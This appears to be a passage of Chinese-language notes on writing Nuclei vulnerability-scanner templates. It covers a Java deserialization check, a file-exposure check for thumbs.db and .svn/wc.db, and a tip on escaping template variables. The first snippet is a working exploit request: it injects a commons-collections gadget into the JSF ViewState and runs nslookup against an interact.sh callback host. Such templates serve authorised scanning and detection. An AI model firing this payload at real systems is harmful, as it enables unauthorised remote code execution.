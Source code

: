 #### JAVA反序列化

```yaml
raw:
  -  |
    POST /index.faces;jsessionid=x HTTP/1.1
    Host: {{Hostname}}
    Accept-Encoding: gzip, deflate
    Content-Length: 1882
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Connection: close
    Content-Type: application/x-www-form-urlencoded

    javax.faces.ViewState={{generate_java_gadget("commons_collection3.1", "nslookup {{interact.sh}}", "base64")}}
```

- https://nuclei.projectdiscovery.io/templating-guide/helper-functions/#deserialization-helper-functions

---

#### 读取大小

```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}/thumbs.db"
      - "{{BaseURL}}/.svn/wc.db"

    max-size: 500 # Size in bytes - Max Size to read from server response
    matchers-condition: and
    matchers:
      - type: binary
        binary:
          - "D0CF11E0"  # db
          - "53514C69746520"  # SQLite
        part: body
        condition: or

      - type: status
        status:
          - 200
```

---

#### skip-variables-check

what if my payload contains {{payload here}} and that is not cli env var. Can i escape it or somehow disable nuclei vars detection ?

当你的请求内容里包含 `{{` 时,会被 nuclei 解析为变量,加这个就是告诉nuclei不要解析.
